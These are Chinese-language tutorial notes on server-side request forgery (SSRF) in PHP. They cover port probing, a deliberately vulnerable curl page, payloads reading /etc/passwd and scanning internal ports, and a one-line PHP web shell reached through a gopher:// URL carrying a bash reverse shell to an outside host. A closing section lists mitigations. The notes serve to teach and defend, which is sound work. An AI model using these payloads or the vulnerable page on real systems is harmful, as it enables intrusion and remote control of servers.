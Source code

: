 ## 原理

SSRF漏洞，在拉取外部资源的时候没有检查URL，导致可以向内网发送请求

<br/>

curl -v "ftp://ip:80"

端口存在连接会一直在连接，连接时间会很长。

	Connected to ip (ip) port 80 (#0)

端口不存在的连接会被立马刷新

	Failed connect to ip:21; Connection refused


http://www.sohu.com/a/300092789_609556

https://blog.chaitin.cn/gopher-attack-surfaces/

exp.php

	<?php system($_POST[e]);?> 

利用方式

	POST /exp.php HTTP/1.1
	Host: 127.0.0.1
	User-Agent: curl/7.43.0
	Accept: */*
	Content-Length: 47
	Content-Type: application/x-www-form-urlencoded
	
	e=bash -i >%26 /dev/tcp/xx.xxx.x.xx/2333 0>%261

构造 Gopher 协议的 URL：

	gopher://127.0.0.1:80/_POST /exp.php HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aUser-Agent: curl/7.43.0%0d%0aAccept: */*%0d%0aContent-Length: 47%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0a%0d%0ae=bash -i >%2526 /dev/tcp/vps/2333 0>%25261null



## php 中的 ssrf

以下三个函数使用不当会造成SSRF漏洞

	file_get_contents()
	fsockopen()
	curl_exec()

构造一个存在ssrf漏洞的页面

	<?php
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, $_GET['url']);
	#curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
	curl_setopt($ch, CURLOPT_HEADER, 0);
	#curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
	curl_exec($ch);
	curl_close($ch);
	?>

查看 /etc/passwd

http://ip/ssrf.php?url=file:///etc/passwd

![](1.jpg)

扫内网开放端口

http://ip/ssrf.php?url=dict://ip:22

![](2.jpg)

加载远程图片 (本服务端代码未成功，显示的二进制)

![](3.jpg)


大部分 PHP 并不会开启 fopen 的 gopher wrapper

file_get_contents 的 gopher 协议不能 URLencode

file_get_contents 关于 Gopher 的 302 跳转有 bug，导致利用失败

curl/libcurl 7.43 上 gopher 协议存在 bug（%00 截断），经测试 7.49 可用

curl_exec() //默认不跟踪跳转，

file_get_contents() // file_get_contents支持php://input协议




## ssrf 解决方案

### 解决方案1

•        限制协议为HTTP、HTTPS

•        禁止30x跳转

•        设置URL白名单或者限制内网IP


### 解决方案2

1.解析目标URL，获取其Host

2.解析Host，获取Host指向的IP地址

3.检查IP地址是否为内网IP

4.请求URL

5.如果有跳转，拿出跳转URL，执行1

6.禁用不必要的协议  可以防止类似于file:///,gopher://,ftp:// 等引起的问题。



## 参考资料

[php，java， python中的ssrf ](https://www.t00ls.net/articles-41070.html)